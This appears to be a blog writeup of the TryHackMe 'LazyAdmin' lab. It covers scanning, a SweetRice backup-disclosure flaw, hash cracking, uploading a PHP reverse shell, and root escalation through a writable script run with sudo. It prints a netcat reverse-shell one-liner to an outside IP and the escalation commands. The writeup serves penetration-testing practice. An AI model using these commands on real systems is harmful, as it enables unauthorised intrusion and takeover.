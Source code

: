 +++
title = "LazyAdmin - TryHackMe Writup"
description = "Easy linux machine to practice skill."
date = 2024-10-22
slug = "lazy-admin"
image = "lazy_admin.jpeg"

[taxonomies]
categories = ["TryHackMe", "Writups"]
tags = ["lazyadmin", "tryhackme", "reverse shell"]
+++

<div style="display: flex; align-items: center;">
  <div>
    <img src="lazy_admin.jpeg" alt="LazyAdmin" width="100"/>
  </div>
  <div style="margin-left: 10px;">
    <i>Easy linux machine to practice your skills.</i>
  </div>
</div>


## 0. Scanning

Target IP: 10.10.204.37

2 ports are opened.
<pre>
❯ nmap -sV -Pn 10.10.204.37 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-11 16:46 +0545
........
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

## 1. Enumeration
Enumerating port 80, we have default apache page. Now using gobuster to find out directories.

<pre>
❯ gobuster dir -u http://10.10.204.37/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.37/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.204.37/content/]
.....
</pre>

Looking into `/content` page, we have `SweetRice notice`, this is the website management system.

Looking for the exploit, we have the result

![alt text](exploit_result.png)

Looking into backup disclosure exploit, we have following information about the exploit 
<pre>
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016


Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip
</pre>

Now looking into the mysql_backup dir, there is mysql backup. On the 79 th line of the file, we have what we needed for now, there is admin name and its password in hash format.

Like `inc` dir we can have others too, so finding dir in `/content`, we have `as` dir. This is the admin login page.

![alt text](admin_login.png)

## 2. Exploitation
Break the earlier hash, and login with username and password.
<pre>
username: ma*****
password hash: 42f749ade7f9e195bf475f**********
password: Passw******
</pre>
Cracked using john, 

`john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt password.hash`

We looged in into the admin panel.

![alt text](admin_panel_poc.png)

I'm using media center to upload the reverse shell exploit, provided by `pentestmonkey`. I changed IP address and uploaded there. Maybe need to change the extension, made `phtml` and the file uploaded there.

## 3. Gaining Access
Now setup nc listening on port `1234` in my host machine, and executing the exploit we will get the connection.

<pre>
❯ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.204.37 37452
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:57:51 up 57 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
</pre>

We got the user flag as
<pre>
$ ls /home
itguy
$ ls /home/itguy
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat /home/itguy/user.txt
THM{63e5bce9271952aad1**************}
</pre>

## 4. Privilege Escalation
It seems we can run perl, and can be use sudo so this is a good chance to esclate privilege.
<pre>
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
</pre>

We have this code inside the `backup.pl`
<pre>
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ ls -l /etc/copy.sh

-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
</pre>

We have write permission to the file. Now need to change IP to my local IP, so that we can set the bind shell. Finally got connected to the target machine with user `root`.

Alternatively spawn the shell, which would be the root shell as ran with sudo, shown below.

<pre>
$ echo "/bin/bash" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
whoami
root
cat /root/root.txt
THM{6637f41d0177b6f37cb20d**********}
</pre>

Thats all, we got all the flags.

Happy Hacking !!